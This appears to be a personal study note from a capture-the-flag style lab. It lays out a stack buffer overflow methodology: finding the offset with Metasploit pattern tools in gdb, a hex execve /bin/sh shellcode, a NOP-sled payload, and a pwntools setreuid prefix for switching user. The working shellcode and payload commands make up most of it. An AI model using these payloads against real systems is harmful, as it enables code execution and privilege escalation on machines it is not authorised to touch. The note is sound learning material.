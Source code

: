 # Simple buffer overflow methodology

Here is a simple buffer overflow methodology for me to refer back to while I continue to learn this confusing topic.



## Calculate the offset
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`

`(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'`

```
(gdb) i r
rax            0xc9	201
rbx            0x0	0
rcx            0x7ffff7b08894	140737348929684
rdx            0x7ffff7dd48c0	140737351862464
rsi            0x602260	6300256
rdi            0x0	0
rbp            0x6641396541386541	0x6641396541386541  <-------HERE IS THE PATTERN
rsp            0x7fffffffe2b8	0x7fffffffe2b8
r8             0x7ffff7fef4c0	140737354069184
r9             0x77	119
r10            0x5e	94
r11            0x246	582
r12            0x400450	4195408
r13            0x7fffffffe3b0	140737488348080
r14            0x0	0
r15            0x0	0
rip            0x400563	0x400563 <copy_arg+60>
eflags         0x10206	[ PF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0

```

`
└──╼$/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 6641396541386541
[*] Exact match at offset 144
`


## Get a shell code

Other samples [1](https://www.exploit-db.com/exploits/42179) and [2](https://www.exploit-db.com/exploits/41750)

A sample 40 byte shell code:
`\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05`




## Find the address of the shellcode

Use NOPs and pick an address in the NOPs to skip to the shellcode.

`(gdb) run $(python -c "print '\x90'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")
`

```
(gdb) x/100x $rsp-200
0x7fffffffe228:	0x00400450	0x00000000	0xffffe3e0	0x00007fff
0x7fffffffe238:	0x00400561	0x00000000	0xf7dce8c0	0x00007fff
0x7fffffffe248:	0xffffe64d	0x00007fff	0x90909090	0x90909090 <----- Nops start here
0x7fffffffe258:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe268:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe278:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe288:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe298:	0x90909090	0x90909090	0x90909090	0x90909090 <----- The address I pick
0x7fffffffe2a8:	0x90909090	0x90909090	0x90909090	0x48583b6a <----- shellcode
0x7fffffffe2b8:	0xb849d231	0x69622f2f	0x68732f6e	0x08e8c149
0x7fffffffe2c8:	0x89485041	0x485752e7	0x050fe689	0x48583c6a
0x7fffffffe2d8:	0x050fff31	0x41414141	0x41414141	0x41414141
0x7fffffffe2e8:	0x42424242	0x00004242	0xffffe3e8	0x00007fff
0x7fffffffe2f8:	0x00000000	0x00000002	0x004005a0	0x00000000
0x7fffffffe308:	0xf7a4302a	0x00007fff	0x00000000	0x00000000
0x7fffffffe318:	0xffffe3e8	0x00007fff	0x00040000	0x00000002
```

Convert the address to little endian depending on system. `0x7fffffffe298` --> `0x98e2ffffff7f` --> `\x98\xe2\xff\xff\xff\x7f`

## Modify the shellcode

Using [Pwntools](https://docs.pwntools.com/en/stable/) you can generate hex instructions for your shellcode. In this example I needed to use setreuid() to become user3. 

```
┌──(root💀kali)-[/home/cornbread]
└─# pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

Paste this portion infront of the existing shellcode and adjust the number of NOPs to keep the offset the same.

Original [blog post](https://l1ge.github.io/tryhackme_bof1/) for buffer overflows used.
